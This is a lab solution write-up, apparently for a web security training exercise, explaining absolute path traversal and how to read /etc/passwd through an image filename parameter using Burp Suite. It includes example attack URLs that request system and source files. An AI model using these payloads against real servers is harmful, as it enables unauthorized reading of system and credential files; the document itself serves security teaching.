


# Lab Description

This lab contains a **path traversal vulnerability in the display of product images**.

The application **blocks traversal sequences** but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

# Lab Solution

**Absolute Path Traversal**
The following URLs may be vulnerable to this attack:
```
http://testsite.com/get.php?f=list
http://testsite.com/get.cgi?f=2
http://testsite.com/get.asp?f=test
```
An attacker can execute this attack like this:

```
http://testsite.com/get.php?f=/var/www/html/get.php
http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc
http://testsite.com/get.asp?f=/etc/passwd
```
When the web server returns information about errors in a web application, it is much easier for the attacker to guess the correct locations (e.g. path to the file with a source code, which then may be displayed). [OWASP - Absolute Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal#:~:text=Absolute%20Path%20Traversal&text=When%20the%20web%20server%20returns,which%20then%20may%20be%20displayed)

1. Use Burp Suite to intercept and modify a request that fetches a product image.



2. Modify the filename parameter, giving it the value `/etc/passwd`.
3. Observe that the response contains the contents of the `/etc/passwd` file.


